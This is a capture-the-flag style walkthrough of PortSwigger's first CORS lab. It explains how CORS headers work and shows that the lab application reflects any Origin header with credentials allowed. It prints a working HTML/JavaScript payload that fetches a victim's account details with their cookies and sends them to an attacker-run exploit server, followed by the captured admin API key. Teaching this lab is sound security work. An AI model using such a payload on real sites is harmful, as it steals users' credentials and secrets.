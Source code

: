 # Portswigger Web Security Academy | CORS Lab #1

Hi everyone! Today, we’ll be solving the first **CORS lab** from the PortSwigger Web Security Academy. Let’s get started!

### What’s CORS ?

CORS stands for Cross-Origin Resource Sharing. It determines whether JavaScript can access a resource _(by making an HTTP request or an API call, in simpler terms)_ from a different origin.

An origin is basically the combination of **protocol + domain + port**. When this pattern changes, the browser enforces CORS.

Here are the related CORS HTTP response headers:

1.  **Access-Control-Allow-Origin:** Tells the browser which origins can access this resource.
2.  **Access-Control-Allow-Methods:** Allowed HTTP methods.
3.  **Access-Control-Allow-Headers:** Headers the client can send in the request.
4.  **Access-Control-Allow-Credentials:** Allows cookies/auth headers if set to true.
5.  **Vary: Origin:** Ensures correct caching behavior per origin.

If the domain that tries to access the resource is listed in the value of the **Access-Control-Allow-Origin** header, then that origin has the right to access the resource.

If **Access-Control-Allow-Credentials** is true, cookies for the target domain are also sent, allowing authenticated requests. This is where CORS vulnerabilities become very impactful.

Let me show you it in an illustration so you can understand it better:

![CORS illustration](./images/CORS-illustration-1.png)

### Lab Description

![Lab Desc](./images/lab-desc-1.png)

I’ve logged in as the wiener user and captured the request for this API key. Here’s the request & response:

![API Call](./images/api-call-1.png)

To check if this API call is really vulnerable to CORS attacks and trusts any origin, let’s add an **Origin** header with a custom value and see how the application behaves:

![CORS Test](./images/CORS-test-1.png)

As you can see, the value `sometestorigin.com`appears inside the **Access-Control-Allow-Origin** response header. This means that origin has access to the resource. Also, since **Access-Control-Allow-Credentials** is set to true, cookies will be included as long as cookie attributes _(like SameSite, Path, Domain)_ don’t prevent it.

Alright, now let’s create the malicious payload, update our exploit server’s response, and serve the payload to the victim admin user. After that, we can extract the admin’s API key from the logs.

#### Exploitation

Here’s the payload that we’ll be be using:

```html
<html>
 <head>
  <script>
   const exploitServer = "https://exploit-<YOUR-EXPLOIT-SERVER-ID>.exploit-server.net/api-logs"
   const vulnerableEndpoint = "https://<YOUR-LAB-ID>.web-security-academy.net/accountDetails"

   function reqListener() {
    location = exploitServer + this.responseText;
   };

   const req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('GET', vulnerableEndpoint, true);
   req.withCredentials = true;
   req.send();
  </script>
 </head>
 <body>
  Something went wrong :)
 </body>
</html>
```

What this payload does:

1.  Makes a GET request to the vulnerable accountDetails API.
2.  Captures the response.
3.  Sends the response to the exploit server so we can extract it from the logs.
4.  After serving the payload to the victim user, we can extract the API key.

Let’s store and serve the payload to the victim user to extract the API key:

![Exploit Logs](./images/exploit-logs-1.png)

Here’s the decoded response:

```json
{
    "username": "administrator",
    "email": "",
    "apikey": "364pm5KegMUpW9nfNgcMOM9zaHhq3xjH",
    "sessions":
    [
        "f2aFt26euDIL1mxQ0qc0tNEjQv931cSd"
    ]
}
```

Thanks for reading, have a nice day!